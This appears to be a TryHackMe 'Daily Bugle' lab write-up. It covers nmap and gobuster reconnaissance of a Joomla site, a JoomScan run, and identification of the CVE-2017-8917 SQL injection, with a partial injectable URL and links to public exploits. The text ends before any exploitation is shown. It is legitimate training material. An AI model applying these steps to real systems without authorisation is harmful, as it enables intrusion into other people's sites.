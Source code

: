 # Daily Bugle
* Compromise Joomla CMS account using SQLi, crack hashes and escalate privileges by taking advantage of yum.
## Scan using Nmap
```
nmap -Pn -O -p- -sV -sC -oN TARGET_IP_scan.nmap TARGET_IP
```
  * `-sC` scan with default NSE scripts.
    * Considered useful for discovery and safe.
```
Starting Nmap 7.60 ( https://nmap.org ) at 2024-03-01 23:46 GMT
Warning: 10.10.208.89 giving up on port because retransmission cap hit (2).
Host is up (0.00037s latency).
Not shown: 65527 closed ports
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (EdDSA)
80/tcp    open     http       Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
1157/tcp  filtered iascontrol
3306/tcp  open     mysql      MariaDB (unauthorized)
17194/tcp filtered unknown
36586/tcp filtered unknown
62839/tcp filtered unknown
65431/tcp filtered unknown
MAC Address: 02:B7:92:4A:42:3F (Unknown)
Aggressive OS guesses: Linux 3.13 (95%), Linux 3.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (94%), Linux 3.16 (94%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.10 (92%), Linux 3.19 (92%), Linux 3.2 - 4.8 (92%), Linux 3.4 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 195.91 seconds
```
### Use GoBuster to search for hidden directories.
```
gobuster dir --url http://TARGET_IP/ -w /usr/share/wordlists/dirb/common.txt > gobuster.txt

[snip...]
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/administrator (Status: 301)
/bin (Status: 301)
/cache (Status: 301)
/cgi-bin/ (Status: 403)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/robots.txt (Status: 200)
/index.php (Status: 200)
/templates (Status: 301)
/tmp (Status: 301)
[snip...]
```
* Browse to "/administrator" directory reveals Joomla login screen.
![image](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/078787b0-7303-4d8a-aac2-6bc911135f12)
  * Default Joomla username admin with no password credentials do not work.
* All other discovered directories return no information.
* Internet search found [OWASP JoomScan](https://github.com/OWASP/joomscan) Joomla! Vulnerability Scanner.
```
git clone https://github.com/rezasp/joomscan.git
cd joomscan
perl joomscan.pl

perl joomscan.pl -u http://TARGET_IP
```
  * Returned Joomla version 3.7.0.
* Found [CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917).
> SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers to execute arbitrary SQL commands via unspecified vectors.
* [Joomla! 3.7.0 - 'com_fields' SQL Injection](https://www.exploit-db.com/exploits/42033) exploit.
  * Vulnerable URL is `URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%2`
* [Joomla! Component Fields - SQLi Remote Code Execution (Metasploit)](https://www.exploit-db.com/exploits/44358) exploit.
* [Exploit-Joomla ](https://github.com/stefanlucas/Exploit-Joomla) exploit.
